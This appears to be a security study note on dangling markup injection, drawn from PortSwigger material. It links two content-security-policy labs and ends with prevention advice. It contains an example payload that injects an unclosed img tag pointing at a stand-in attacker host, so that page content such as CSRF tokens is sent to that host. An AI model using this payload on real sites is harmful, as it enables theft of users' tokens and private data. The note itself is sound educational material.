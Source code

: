Parent Links : [[Cross-site scripting]]     

## Dangling markup injection

Dangling markup injection is a technique that can be used to capture data cross-domain in situations where a full cross-site scripting exploit is not possible, due to input filters or other defenses. It can often be exploited to capture sensitive information that is visible to other users, including CSRF tokens that can be used to perform unauthorized actions on behalf of the user.  
  
Suppose an application embeds attacker-controllable data into its responses in an unsafe way:  
`<input type="text" name="input" value="CONTROLLABLE DATA HERE`  
Suppose also that the application does not filter or escape the `>` or `"` characters. An attacker can use the following syntax to break out of the quoted attribute value and the enclosing tag, and return to an HTML context:  
`">`  
In this situation, an attacker would naturally attempt to perform [XSS](https://portswigger.net/web-security/cross-site-scripting). But suppose that a regular XSS attack is not possible, due to input filters, content security policy, or other obstacles. Here, it might still be possible to deliver a dangling markup injection attack using a payload like the following:  
`"><img src='//attacker-website.com?  
`  
This payload creates an `img` tag and defines the start of a `src` attribute containing a URL on the attacker's server. Note that the attacker's payload doesn't close the `src` attribute, which is left "dangling". When a browser parses the response, it will look ahead until it encounters a single quotation mark to terminate the attribute. Everything up until that character will be treated as being part of the URL and will be sent to the attacker's server within the URL query string. Any non-alphanumeric characters, including newlines, will be URL-encoded.  
The consequence of the attack is that the attacker can capture part of the application's response following the injection point, which might contain sensitive data. Depending on the application's functionality, this might include [CSRF tokens](https://portswigger.net/web-security/csrf/tokens), email messages, or financial data.  
  
**Any attribute that makes an external request can be used for dangling markup.** To solve the following lab, look for attributes and tags that can make an external request that isn't blocked by Chrome.  
>LAB [Reflected XSS protected by CSP, with dangling markup attack](https://portswigger.net/web-security/cross-site-scripting/content-security-policy/lab-csp-with-dangling-markup-attack)  
  
---

This next lab is more difficult to solve because all external requests are blocked. However, there are certain tags that allow you to store data and retrieve it from an external server later. Solving this lab might require user interaction.  
>LAB [Reflected XSS protected by very strict CSP, with dangling markup attack](https://portswigger.net/web-security/cross-site-scripting/content-security-policy/lab-very-strict-csp-with-dangling-markup-attack)  
  
  
  

### How to prevent dangling markup attacks
  
You can prevent dangling markup attacks using the same general defenses for [preventing cross-site scripting](https://portswigger.net/web-security/cross-site-scripting/preventing), by encoding data on output and validating input on arrival.  
You can also mitigate some dangling markup attacks using [content security policy CSP](https://portswigger.net/web-security/cross-site-scripting/content-security-policy). For example, you can prevent some (but not all) attacks, using a policy that prevent tags like `img` from loading external resources.  
  

#### Note
  
The Chrome browser has decided to tackle dangling markup attacks by preventing tags like `img` from defining URLs containing raw characters such as angle brackets and newlines. This will prevent attacks since the data that would otherwise be captured will generally contain those raw characters, so the attack is blocked.